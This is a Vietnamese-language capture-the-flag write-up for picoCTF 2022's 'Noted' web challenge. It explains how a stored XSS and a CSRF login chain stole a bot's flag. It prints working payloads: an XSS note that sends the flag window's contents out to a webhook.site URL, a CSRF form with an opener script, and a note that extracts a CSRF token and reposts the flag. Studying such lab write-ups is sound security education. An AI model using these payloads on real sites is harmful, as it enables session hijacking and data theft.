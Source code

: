 ```yaml
---
title: Noted
description: From picoCTF2022
author: to^
date: 2022-04-04 22:08:00 +0700
categories: [WecSec, CTF, picoCTF2022]
tags: [csrf, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: noted/pico.png
 alt: picoctf logo
 width: 1000
 height: 1000
---
```


## Sơ lược về challenge
Trang gồm có hai chức năng `Login` và `Register`
![overview1](noted/overview1.png)
_overview1_

Tiếp đó ta thể tạo note và gửi link để report.
![overview2](noted/overview2.png)
_overview2_

## Phân tích
Sau khi thử thì mình nhận thấy có lỗi xss ở đây
[![test note](noted/overview2.png)](https://user-images.githubusercontent.com/77546253/161594213-8d0c1949-c9f1-410b-ae70-890f10590c89.mp4 "Link Title")
_Click to play video_
Suy ra bài này là một dạng Self Store XSS

Cũng tương tự như các bài xss khác, chức năng report sẽ làm con bot (đóng vai trò như admin) access đến link mà ta gửi.
![report](noted/report.png)
_report.js_
Bot sẽ tạo một tài khoản với tk, mk random và tạo một note với content chính là flag. Sau đó sẽ access tới url được report.

Trong `web.js` có thể thấy server dùng csrf token trong các route.
![csrf](noted/webjs.png)
_web.js_

Bởi vì sau khi vừa tạo note thì phiên hoạt động của bot vẫn còn hiệu lực nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webhook hoặc có thể tạo một note mới với content là flag ở account của ta.

### Gửi đến webhook
Cách này không đòi hỏi phải extract csrf token
![flow1](noted/flow1.png)
_flow1_

Đầu tiên ta khởi tạo 1 account với `tk,mk: bla` mục đích là lưu xss script có vai trò gửi nội dung của `window` chứa flag tới webhook của ta.
XSS note sẽ có nội dung như sau:
```html
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://webhook.site/<id>?' + window.open('', 'pwn').document.body.textContent
</script>
```
Ở đây ta dùng `window.location.search.includes` là để tránh việc bị redirect liên tục tới webhook.

Tiếp theo ở exploit server ta tạo một `index.html` với layout
![exploit server](noted/exp_sv.png)

Csrf form sẽ là:
```html
    <form action='http://0.0.0.0:8080/login' method='POST' id='pwn' target='_blank'>
        <input type="text" name="username" value="bla">
        <input type="text" name="password" value="bla">
    </form>
```

Script để exploit sẽ là:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'pwn');
        setTimeout(`pwn.submit()`, 1000);
        setTimeout(`window.location='http://0.0.0.0:8080/notes?pwn'`, 1500);
    </script>
```
Trong csrf form ta thêm thuộc tính `target` và gán giá trị bằng `_blank` để reponse trả về từ `action` sẽ mở ở tab mới nếu không các dòng javascript ở bên dưới sẽ không được thực thi.

Để hiểu rõ hơn về cách khai thác này ta sẽ đặt tất cả lại với nhau:
 - Đầu tiên gửi cho con bot link exploit server, bot sẽ truy cập tới exploit server hay cụ thể là `index.html`
 - Đoạn script ở `index.html` sẽ open new tab với tên là `pwn` (sẽ không yêu cầu nhập username, password bởi vì phiên hoạt động của bot vẫn còn hiệu lực và cửa sổ này sẽ chứa note với content là flag)
 - Sau 1s thì submit csrf form lúc này bot sẽ login vào account ta vừa tạo và kết quả hiển thị ở `new blank tab`
 - Sau 1,5s thì chuyển hướng từ exploit page đến `http://0.0.0.0:8080/notes?pwn` lưu ý rằng ở đoạn code trước ta đã đăng nhập vào tài khoản `bla` nên bây giờ cũng sẽ chuyển hướng tới `/notes` của `bla`. `?pwn` dùng để trigger store xss và gửi nội dung cửa sổ `pwn` đến webhook.
Có thể thấy lúc này ta không hề vi phạm `same origin policy` khi lấy `document.body.textContent` từ 
cửa sổ tên là `pwn` bởi vì chúng đều thuộc cùng domain, port và scheme.

Và kết quả:
![result](noted/result.png)
_result_

### Extract csrf token
Ở cách này thì form csrf vẫn như cách kia nhưng có sự thay đổi về xss note và script exploit
Script exploit:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'pwn')
        setTimeout(`pwn.submit()`, 1000);
    </script>
```

XSS note:
```html
<script>
fetch("/new").then(r => r.text()).then(r => {
    //get valid csrf token from the HTML of /new
    let csrf = r.match(/_csrf" value="([^"]*)/)[1];
    //get the flag from the other tab
    let flag = window.open('', 'pwn').document.querySelector("body>div>p").innerHTML;
    //write the flag on a note I can read later
    fetch("/new", { method: "POST", body: JSON.stringify({ _csrf: csrf, title: "PWNED!!!", content: flag }), headers: { 'Content-Type': 'application/json' } });
});
</script>
```


## Tham khảo
<https://docs.abbasmj.com/ctf-writeups/picoctf-2022#noted>




